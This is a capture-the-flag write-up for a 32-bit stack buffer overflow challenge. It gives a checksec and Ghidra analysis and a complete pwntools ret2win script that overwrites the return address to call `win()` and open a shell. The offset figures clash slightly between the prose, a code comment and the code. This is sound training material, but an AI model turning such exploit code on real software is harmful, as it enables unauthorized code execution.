


# Reconnaissance
## C Review
The first step of course is to take a look into the provided c file. At a glance, the `main` function seems to be secure with the `fgets()` function properly limiting input to avoid overwriting the `sample` buffer. But the bottom of main calls `vuln()` function, which sounds interesting.

`vuln()` has a 50 byte buffer which it writes with `gets`, which means this is our attack vector. We will probably be overflowing the buffer to change the return address and call another function--probably `win` since it spawns a shell!
## Binary Analysis
First, lets check how the ELF runs with the `checksec` command:
>$checksec ./challenge/chall_2

>Arch:     i386-32-little  
>RELRO:    Partial RELRO  
>Stack:    No canary found  
>NX:       NX enabled  
>PIE:      No PIE (0x8048000)

Notably, stack canary and PIE are disabled which should make our job much easier. Especially the lack of PIE, because we should be able to reliably know the address to replace the return address with in order to call `win()`.

Next, lets decompile the executable file we were given with Ghidra to get an idea of what the stack looks like in the `vuln()` function. 
  
`local_3e` is the character buffer we get to overflow, and even thought it was defined with a length of 50, in this executable it is 54 bytes. Notice there is also an 8 byte variable `local_8` in the executable, which didn't show up in the c file. We'll need to overflow this too. So, in our input we will want an offset of 62 characters. Now we want to find the address where the `win()` function starts so we can call it.  
  
Highlighted in green is the address of the start of the function, 0x08048526, which is what we will want to write into the return address by overflowing the buffer with 1 byte.  With that out of the way, we should be ready to write our script for the challenge.

# Script
To start testing, we are going to run our script on the ELF we were given for the challenge. We can load it like this:
```{python}
from pwn import *

EXE = ELF("./challenge/chall_2")

context.binary = EXE
context.terminal = ['xterm', '-e']
context.log_level = "DEBUG"

win_address = EXE.symbols['win']
```
Here we are doing a couple of things. We are importing the `pwn` library to use as our primary tool for both working on the local file and the challenge server. Then, we use `pwn`'s `ELF` module to put the executable into a variable `EXE`. Then we set up a few things for `pwn`, most importantly `context.log_level = "DEBUG"` because this will give us verbose information about what we send and recieve with `pwn`. Finally, we use one of `pwn`'s features to find the address of the `win()` function. This should give the same value as what we found in Ghidra.  

Next, we connect to the executable and run our package:
```{python}
r = process([EXE.path])
# Wait for the process to send "Goodbye, Mr. Anderson..." and respond to move onto vuln()
r.recvline()
r.send(b'a\n')

# Create a package with an offset of 54 bytes then the address win(), send it, and open an interactive terminal
package = b'a'*62
package += p32(win_address)+b'\n'
r.send(package)
r.interactive()
```
This spawns a terminal for us to run `ls` then `cat flag.txt`!